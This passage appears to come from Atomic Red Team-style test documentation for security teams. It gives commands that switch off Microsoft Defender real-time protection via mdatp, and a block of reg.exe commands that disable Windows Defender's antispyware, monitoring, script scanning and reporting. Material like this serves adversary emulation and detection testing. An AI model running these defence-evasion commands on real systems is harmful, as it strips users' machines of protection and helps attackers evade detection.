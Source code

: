 
**auto_generated_guid:** 40074085-dbc8-492b-90a3-11bcfc52fda8






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo mdatp config real-time-protection --value disabled
```

#### Cleanup Commands:
```sh
sudo mdatp config real-time-protection --value enabled
```





<br/>
<br/>

## Atomic Test #48 - Tamper with Windows Defender Registry - Reg.exe
Disable Windows Defender by tampering with windows defender registry using the utility "reg.exe"

**Supported Platforms:** Windows


**auto_generated_guid:** 1f6743da-6ecc-4a93-b03f-dc357e4b313f






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIntrusionPreventionSystem" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRoutinelyTakingAction" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScriptScanning" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f >NUL 2>nul 
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f >NUL 2>nul
```
